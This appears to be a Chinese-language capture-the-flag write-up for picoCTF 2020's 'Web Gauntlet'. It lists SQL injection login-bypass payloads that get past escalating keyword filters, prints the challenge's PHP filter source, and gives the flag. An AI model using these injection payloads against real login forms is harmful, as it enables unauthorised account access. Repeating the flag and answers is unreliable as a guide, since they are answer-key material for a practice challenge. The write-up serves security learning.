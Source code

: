 # picoCTF 2020

## web
### Web Gauntlet
> Can you beat the filters? Log in as admin
> http://jupiter.challenges.picoctf.org:19593/
> http://jupiter.challenges.picoctf.org:19593/filter.php
> hint:
> You are not allowed to login with valid credentials.
> Write down the injections you use in case you lose your progress.
> For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.
> sqlite
> If your cookie keeps getting reset, try using a private browser window
* 從題意上可以看出要繞過 filter 頁面中所顯示的語法
* 第一關需要繞過 `or`
    * 要以 `admin` 登入
    * 加上是 sqlite
    * 不難推斷正確的 payload 是
        * `username : admin' -- `
        * `password : whatever`
* 第二關需要繞過 `or and like = --`
    * payload
        * `username : admin' /*`
        * `password : whatever`
* 第三關需要繞過 `or and = like > < --` 還有空格
    * payload
        * `username : admin'/*`
        * `password : whatever`
* 第四關需要繞過 `or and = like > < -- admin` 還有空格
* 比較麻煩的一點是他把 admin 過濾了
* 第一個想到的是兩字串相連起來的做法繞過 `||`
    * payload
        * `username : ad'||'min'/*`
        * `password : whatever`
* 第五關需要繞過 `or and = like > < -- union admin` 還有空格
* 看到 `union` 我震驚了，應該不需要那種東東吧 ... 
    * payload
        * `username : ad'||'min'/*`
        * `password : whatever`
* 做到第五關可以知道有一個萬用解，對這一題來說
    * `username : ad'||'min'/*`
    * `password : whatever`
* 解完五關可以拿到他的 php source code 
    ```php=
    <?php
    session_start();

    if (!isset($_SESSION["round"])) {
        $_SESSION["round"] = 1;
    }
    $round = $_SESSION["round"];
    $filter = array("");
    $view = ($_SERVER["PHP_SELF"] == "/filter.php");

    if ($round === 1) {
        $filter = array("or");
        if ($view) {
            echo "Round1: ".implode(" ", $filter)."<br/>";
        }
    } else if ($round === 2) {
        $filter = array("or", "and", "like", "=", "--");
        if ($view) {
            echo "Round2: ".implode(" ", $filter)."<br/>";
        }
    } else if ($round === 3) {
        $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
        // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
        if ($view) {
            echo "Round3: ".implode(" ", $filter)."<br/>";
        }
    } else if ($round === 4) {
        $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
        // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
        if ($view) {
            echo "Round4: ".implode(" ", $filter)."<br/>";
        }
    } else if ($round === 5) {
        $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
        // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
        if ($view) {
            echo "Round5: ".implode(" ", $filter)."<br/>";
        }
    } else if ($round >= 6) {
        if ($view) {
            highlight_file("filter.php");
        }
    } else {
        $_SESSION["round"] = 1;
    }

    // picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}
    ?>
    ```
* flag : `picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}`

